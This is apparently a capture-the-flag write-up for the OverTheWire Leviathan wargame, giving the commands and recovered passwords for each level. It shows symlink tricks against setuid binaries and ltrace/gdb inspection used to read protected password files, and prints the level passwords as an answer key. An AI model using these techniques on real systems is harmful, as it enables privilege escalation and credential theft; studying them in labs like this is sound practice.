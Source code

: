 # Over the wire
## Leviathan
### Level 1:
 - Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on leviathan.labs.overthewire.org through SSH.
 - Username: leviathan0
 - Password: leviathan0

```
leviathan0@melinda:~$ egrep password .backup/bookmarks.html 
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71" password to leviathan1</A>
```

Level 2:
Username: leviathan1
Password: rioGegei8m

leviathan1@melinda:~$ echo asd | ltrace ./check 2>&1 | egrep strcmp
strcmp("asd", "sex")                             = -1

leviathan1@melinda:~$ ./check
sex
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta



Level 3:
Username: leviathan2
Password: ougahZi8Ta

leviathan2@melinda:/tmp$ ln -s /etc/leviathan_pass/leviathan2 "/tmp/aabcd e"
leviathan2@melinda:/tmp$ ln -s /etc/leviathan_pass/leviathan3 "/tmp/aabcd"
leviathan2@melinda:/tmp$ ~/printfile "aabcd e"
Ahdiemoo1j






Level 4:
Username: leviathan3
Password: Ahdiemoo1j

leviathan3@melinda:~$ objdump -D level3  | less

80485ae:       f3 a6                   repz cmpsb %es:(%edi),%ds:(%esi)

do_stuff


objdump -D level3  | less
#b do_stuff
break *0x80485ae
set step-mode on
display/i $pc
run
(gdb) x/1bs $edi
0x8048690:      "snlprintf\n"

leviathan3@melinda:~$ ./level3 
Enter the password> snlprintf
[You've got shell]!
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
$ 


Level 5:
Username: leviathan4
Password: vuH0coox6m


leviathan4@melinda:~$ ./.trash/bin 
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010 
leviathan4@melinda:~$ ltrace ./.trash/bin 
__libc_start_main(0x80484cd, 1, 0xffffd774, 0x80485c0 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r")                                                                                  = 0
+++ exited (status 255) +++

http://unix.stackexchange.com/questions/98948/ascii-binary-tools
chrbin() {
        echo $(printf \\$(echo "ibase=2; obase=8; $1" | bc))
}

ordbin() {
  a=$(printf '%d' "'$1")
  echo "obase=2; $a" | bc
}

ascii2bin() {
    echo -n $* | while IFS= read -r -n1 char
    do
        ordbin $char | tr -d '\n'
        echo -n " "
    done
}

bin2ascii() {
    for bin in $*
    do
        chrbin $bin | tr -d '\n'
    done
}

leviathan4@melinda:~$ bin2ascii $n ; echo
Tith4cokei



Level 6:
Username: leviathan5
Password: Tith4cokei


leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log ; ./leviathan5 
UgaoFee4li



Level 7:
Username: leviathan6
Password: UgaoFee4li


leviathan6@melinda:~$ ltrace ./leviathan6 1111
__libc_start_main(0x804850d, 2, 0xffffd794, 0x8048590 <unfinished ...>
atoi(0xffffd8c1, 0xffffd794, 0xffffd7a0, 0xf7e5510d)                                                                          = 1111
puts("Wrong"Wrong
)                                                                                                                 = 6
+++ exited (status 6) +++

 8048550:       e8 ab fe ff ff          call   8048400 <atoi@plt>
 8048555:       3b 44 24 1c             cmp    0x1c(%esp),%eax
 8048559:       75 1a                   jne    8048575 <main+0x68>
 804855b:       c7 04 24 ef 03 00 00    movl   $0x3ef,(%esp)
 8048562:       e8 39 fe ff ff          call   80483a0 <seteuid@plt>
 8048567:       c7 04 24 3a 86 04 08    movl   $0x804863a,(%esp)
 804856e:       e8 4d fe ff ff          call   80483c0 <system@plt>
 8048573:       eb 0c                   jmp    8048581 <main+0x74>
 8048575:       c7 04 24 42 86 04 08    movl   $0x8048642,(%esp)
 804857c:       e8 2f fe ff ff          call   80483b0 <puts@plt>
 8048581:       c9                      leave  
 8048582:       c3                      ret    


gdb leviathan6 
break *0x8048555
set step-mode on
display/i $pc
run 0001
x/1wd $esp+0x1c


0xffffd6ac:     7123

(gdb) x/1wc "0x1c(%esp)"
0x804b008:      48 '0'

./leviathan6 7123
cat /etc/leviathan_pass/leviathan7


ahy7MaeBo9



Level 8:
Username: leviathan7
Password: ahy7MaeBo9

leviathan7@melinda:~$ cat CONGRATULATIONS 
Well Done, you seem to have used a *nix system before, now try something more serious.
(Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)

